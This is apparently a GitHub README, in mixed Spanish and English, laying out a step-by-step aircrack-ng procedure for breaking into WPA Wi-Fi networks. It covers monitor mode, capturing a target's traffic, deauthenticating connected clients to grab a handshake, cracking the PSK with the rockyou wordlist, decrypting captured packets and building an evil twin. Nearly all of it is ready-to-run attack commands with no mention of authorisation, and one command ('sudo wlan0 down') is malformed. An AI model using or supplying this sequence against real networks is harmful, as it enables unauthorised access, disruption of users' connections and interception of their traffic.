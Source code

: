 <img src="https://www.aircrack-ng.org/resources/aircrack-ng-new-logo.jpg" align=right>

# How to use Aircrack-ng for wireless cracking

_Note: This HowTo was created to be used in Kali Linux so we assume no liability regarding the bad results or any other issues when used in Windows._


**PASO 1:** Poner modo promiscuo la interfaz wireless 

_Manera #1_ Digite estos comandos:
> sudo ifconfig wlan0 down
> sudo ifconfig wlan0 mode monitor
> sudo ifconfig wlan0 up

_Manera #2_ Digite estos comandos:
> sudo wlan0 down
> sudo airmon-ng start wlan0
> airmon-ng check kill (this will check and kill off processes that might interfere with the aircrack-ng suite.)


**PASO 2:** Reconocer las redes disponibles

Digite el comando
> sudo airodump-ng wlan0mon

**PASO 3:** Escuchar por wlan0 el tráfico del AP y ver los dispositivos conectados:

Cuando se tenga identificado el SSID por utilizar, se digita:

_Manera 1:_ Digite el comando:
> sudo airodump-ng --channel [Channel number] --bssid [SSID MAC] --write psk wlan0mon

_Manera 2:_ Digite el comando:
> sudo airodump-ng --write captureone --output-format cap --bssid [SSID MAC] --channel [Channel number] wlan0mon

_Where:_
* -bssid MAC del ssid de la red
* -c canal de esta]

**PASO 4:** Desautenticar dispositivos pegados a una red mediante este comando:

> sudo aireplay-ng -0 [number deauth packs to send] -a [AP MAC add] -c [endpoint MAC add] wlan0mon

_Where:_
* -0 means deauthentication
* Number of deauths to send (you can send multiple if you wish); 0 means send them continuously
* -a is the MAC address of the access point
* -c is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
* wlan0mon is the interface name


**#PASO 5:** Usar aircrack para descifrar el PSK de WPA si hemos usado la manera #2 del paso 3
> aircrack-ng -w rockyou.txt captureone-01.cap


#**Adicional**: 

1. Para descifrar los paquetes capturados.
> sudo airdecap-ng -e 'the ssid' -p passphrase  tkip.cap

2. Para generar un evil twin se usa el suite airbase-ng

